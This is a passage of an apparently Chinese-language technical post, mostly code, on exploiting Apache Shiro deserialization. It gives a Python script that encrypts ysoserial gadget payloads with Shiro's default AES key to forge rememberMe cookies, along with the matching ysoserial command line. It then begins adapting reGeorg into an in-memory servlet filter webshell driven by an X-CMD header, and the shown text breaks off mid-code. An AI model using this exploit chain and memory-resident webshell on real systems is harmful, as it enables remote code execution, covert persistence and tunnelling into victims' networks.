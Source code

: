```java
mvn clean package -DskipTests
```



借以下脚本生成POC

```python
#python2
#pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

key  =  "kPH+bIxk5D2deZiIxcaaaA=="
mode =  AES.MODE_CBC
IV   = uuid.uuid4().bytes
encryptor = AES.new(base64.b64decode(key), mode, IV)

payload=base64.b64decode(sys.argv[1])
BS   = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
payload=pad(payload)

print(base64.b64encode(IV + encryptor.encrypt(payload)))
```

```bash
python2 shiro_cookie.py `java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1_ClassLoader anything |base64 |sed ':label;N;s/\n//;b label'`
```



### 改造reGeorg

对于reGeorg服务端的更改其实也就是request等对象的获取方式，为了方便注册filter，我直接让该类实现了Filter接口，在doFilter方法中完成reGeorg的主要逻辑，在equals方法中进行[filter的动态注册](https://xz.aliyun.com/t/7388)

```java
package reGeorg;

import javax.servlet.*;
import java.io.IOException;

public class MemReGeorg implements javax.servlet.Filter{
    private javax.servlet.http.HttpServletRequest request = null;
    private org.apache.catalina.connector.Response response = null;
    private javax.servlet.http.HttpSession session =null;

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }
    public void destroy() {}
    @Override
    public void doFilter(ServletRequest request1, ServletResponse response1, FilterChain filterChain) throws IOException, ServletException {
        javax.servlet.http.HttpServletRequest request = (javax.servlet.http.HttpServletRequest)request1;
        javax.servlet.http.HttpServletResponse response = (javax.servlet.http.HttpServletResponse)response1;
        javax.servlet.http.HttpSession session = request.getSession();
        String cmd = request.getHeader("X-CMD");
        if (cmd != null) {
            response.setHeader("X-STATUS", "OK");
```